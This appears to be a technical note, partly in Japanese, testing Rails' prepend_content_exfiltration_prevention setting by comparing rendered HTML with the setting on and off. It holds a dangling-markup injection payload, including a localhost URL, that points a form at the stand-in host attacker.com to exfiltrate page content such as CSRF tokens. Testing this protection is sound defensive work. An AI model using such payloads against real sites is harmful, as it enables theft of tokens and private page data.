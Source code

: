 ### config.action_view.prepend_content_exfiltration_prevention = true

```
<!DOCTYPE html>
<html>
  <head>
    <title>Myapp</title>
    <meta name="viewport" content="width=device-width,initial-scale=1">
    <meta name="csrf-param" content="authenticity_token" />
<meta name="csrf-token" content="xBxWEieMnxNueM63V_e-ZcnOPWAB0pFuu2hHfsHYZ6Oz57l3r6UeBp08X7s_AZlvxlHYgLtQrT3zSSnfPYO-CA" />
    
    
    <link rel="stylesheet" href="/assets/application-e0cf9d8fcb18bf7f909d8d91a5e78499f82ac29523d475bf3a9ab265d5e2b451.css" data-turbo-track="reload" />
  </head>

  <body>
    <form action="https://attacker.com"><textarea>

<!-- '"` --><!-- </textarea></xmp> --></option></form><form class="button_to" method="post" action="http://www.example.com"><button type="submit">Hello</button><input type="hidden" name="authenticity_token" value="pu44feDtDKnN7sIktuElV9iieBZx1dQnLq-nmai07e0AS1wCxmK2XJajz0P7BoH6WVJTHCAnpaXwX0njYSkYMw" autocomplete="off" /></form>

<h1>secret</h1>

  </body>
</html>
```

### 結果
注入されたタグからの脱出に成功した。

## `<form action="https://attacker.com"><option>`

http://localhost:3000/?xss2=%3Cform%20action=%22https://attacker.com%22%3E%3Coption%3E

### config.action_view.prepend_content_exfiltration_prevention = false

```
<!DOCTYPE html>
<html>
  <head>
    <title>Myapp</title>
    <meta name="viewport" content="width=device-width,initial-scale=1">
    <meta name="csrf-param" content="authenticity_token" />
<meta name="csrf-token" content="EV6f3EQXIjftJa2zbjtaqeHj9nB6sGi0TH18-jSVvipmpXC5zD6jIh5hPL8GzX2j7nwTkMAyVOcEXBJbyM5ngQ" />
    
    
    <link rel="stylesheet" href="/assets/application-e0cf9d8fcb18bf7f909d8d91a5e78499f82ac29523d475bf3a9ab265d5e2b451.css" data-turbo-track="reload" />
  </head>

  <body>
    <form action="https://attacker.com"><option>

<form class="button_to" method="post" action="http://www.example.com"><button type="submit">Hello</button><input type="hidden" name="authenticity_token" value="TllraI3YtoblHv2bjzoHJnG1JRMo6FeHqVEM0o7uw4no_A8Xq1cMc75T8PzC3aOL8EUOGXkaJgV3oeKoR3M2Vw" autocomplete="off" /></form>

```